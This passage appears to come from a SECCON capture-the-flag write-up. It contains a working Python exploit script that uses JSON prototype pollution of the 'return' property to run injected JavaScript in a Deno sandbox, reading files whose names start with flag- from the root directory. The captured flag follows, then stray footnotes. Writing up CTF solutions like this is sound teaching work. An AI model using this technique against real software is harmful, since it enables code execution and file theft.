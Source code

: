 ```python
import os
import pwn
import json

io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))

payload = """
for (const entry of Deno.readDirSync("/")) {
    if (entry.name.startsWith("flag-")) {
        const flag = new TextDecoder().decode(Deno.readFileSync("/" + entry.name));
        console.log(flag);
    }
}
""".strip()

input_str = json.dumps({
    "constructor": {
        "prototype": {
            # ref. https://tc39.es/ecma262/2023/multipage/abstract-operations.html#sec-iteratorclose
            #
            # > 3. Let innerResult be Completion(GetMethod(iterator, "return")).
            # > 4. If innerResult.[[Type]] is normal, then
            # >     a. Let return be innerResult.[[Value]].
            # >     b. If return is undefined, return ? completion.
            # >     c. Set innerResult to Completion(Call(return, iterator)).
            "return": {
                "__custom__": True,
                "type": "Function",
                "args": [
                    payload,
                ],
            },
        },
    },
    # Cause an error
    "toString": {
        "caller": {},
    },
})

io.sendlineafter(b"Input your JSON: ", input_str.encode())
print(io.recvall().decode())
```

### Flag

```
SECCON{ECMAScr1pt_has_g4dgets_of_prototype_po11ution!!!}
```

## [sandbox] node-ppjail


[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version.<br>ref. https://www.typescriptlang.org/tsconfig/#target